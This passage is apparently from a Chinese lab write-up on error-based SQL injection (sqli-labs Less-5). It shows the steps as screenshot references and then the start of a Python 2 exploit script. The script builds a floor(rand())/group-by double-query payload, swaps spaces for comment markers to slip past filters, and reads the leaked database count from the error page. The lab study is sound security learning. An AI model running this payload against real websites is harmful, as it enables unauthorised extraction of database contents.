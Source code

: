 #### 尝试得到显示位
> {{% fluid_img src="/img/post/sqli5_get_display_point.png" alt="尝试得到显示位" %}}

#### 报错得到数据库个数
> {{% fluid_img src="/img/post/sqli5_get_db_num.png" alt="报错得到数据库个数" %}}

#### 报错得到数据库名
> {{% fluid_img src="/img/post/sqli5_get_db_name.png" alt="报错得到数据库名" %}}

#### 报错得到表名
> {{% fluid_img src="/img/post/sqli5_get_table_num.png" alt="报错得到表的个数" %}}
<br /><br />
{{% fluid_img src="/img/post/sqli5_get_table_name.png" alt="报错得到表名" %}}

#### 报错得到列名
> {{% fluid_img src="/img/post/sqli5_get_column_num.png" alt="报错得到列的个数" %}}
<br /><br />
{{% fluid_img src="/img/post/sqli5_get_column_name1.png" alt="报错得到列名1" %}}
<br /><br />
{{% fluid_img src="/img/post/sqli5_get_column_name2.png" alt="报错得到列名2" %}}

#### 得到列值
> {{% fluid_img src="/img/post/sqli5_get_column_value_num.png" alt="报错得到数据条数" %}}
<br /><br />
{{% fluid_img src="/img/post/sqli5_get_column_value.png" alt="报错得到列的值" %}}

### 0x04 附上利用代码
> ```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-  

import re
import urllib
import urllib2
import binascii
from pyfiglet import figlet_format
from optparse import OptionParser


# --dbs url
def getAllDatabases(url):
    # print url
    payload = "' and(select 1 from(select+count(*),concat((select (select (select+concat(0x7e7e3a7e7e, count(distinct table_schema),0x7e7e3a7e7e) from information_schema.tables)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)--+"
    payload = "/**/".join(payload.split())
    dbs_num_url = url + payload
    # print dbs_num_url
    response = urllib2.urlopen(dbs_num_url)
    html = response.read()
    # print html
    # ~~:~~5~~:~~
    dbs_num = int(re.search(r'~~:~~(\d*?)~~:~~', html).group(1))
    print "database num: %d" % dbs_num
    print "database name: "